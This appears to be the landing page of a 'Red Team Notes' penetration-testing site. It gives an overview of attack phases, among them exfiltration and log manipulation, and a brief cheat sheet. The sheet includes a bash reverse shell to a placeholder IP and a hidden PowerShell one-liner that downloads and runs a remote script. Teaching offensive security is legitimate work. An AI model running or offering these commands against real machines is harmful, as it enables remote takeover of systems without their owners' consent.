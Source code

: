 ```yaml
---

hide:

- navigation
- toc

---
```


# 🛡️ Red Team Notes

🚀 **Your Ultimate Offensive Security Resource** 🚀

Welcome to **Red Team Notes**, a collection of resources, tools, and techniques for **penetration testing, red teaming, and cybersecurity research**. Whether you're an aspiring ethical hacker or a seasoned security professional, this site is your go-to place for sharpening your **offensive security skills**.

💀 **"Hack The System Before They Do!"** 💀

---

## 🔥 Red Team Phases

🔎 **Key Stages of a Red Team Operation** 🔥

- 🕵️ **Reconnaissance** - Gathering information about the target environment *(OSINT, Nmap, Gobuster)*
- 📡 **Enumeration** - Identifying active hosts, services, and vulnerabilities *(Netstat, SMB enumeration, SNMP scanning)*
- 🎯 **Initial Access** - Gaining entry into the target network *(Phishing, Exploit Kits, Stolen Credentials)*
- 🔓 **Privilege Escalation** - Gaining higher privileges *(Kernel Exploits, Misconfigurations, Credential Abuse)*
- 🔄 **Lateral Movement** - Expanding access within the network *(Pass-the-Hash, RDP Hijacking, SMB Relay)*
- 📌 **Persistence** - Maintaining long-term access *(Scheduled Tasks, Registry Keys, C2 Frameworks)*
- 📤 **Exfiltration** - Stealing sensitive information *(Data Compression, Covert Channels, Cloud Exfiltration)*
- 🎭 **Evasion Techniques** - Avoiding detection *(Log Manipulation, Obfuscation, Stealth Tactics)*
- 🛠️ **Tools & Cheat Sheets** - A collection of must-have red team tools and reference commands

---

## ⚡ Red Team Cheat Sheet & Commands

<details>
  <summary>🔍 **Basic Enumeration**</summary>
  
  ```sh
  nmap -sC -sV -oN scan.txt target-ip
  ```
</details>

<details>
  <summary>🦠 **Get a Reverse Shell (Linux)**</summary>
  
  ```sh
  bash -i >& /dev/tcp/your-ip/4444 0>&1
  ```
</details>

<details>
  <summary>🖥️ **Windows Reverse Shell (PowerShell)**</summary>
  
  ```sh
  powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://yourserver/rev.ps1')"
  ```
</details>

---

💡 **Stay ahead of threats. Learn, Adapt, and Dominate the Cyber Battlefield!**

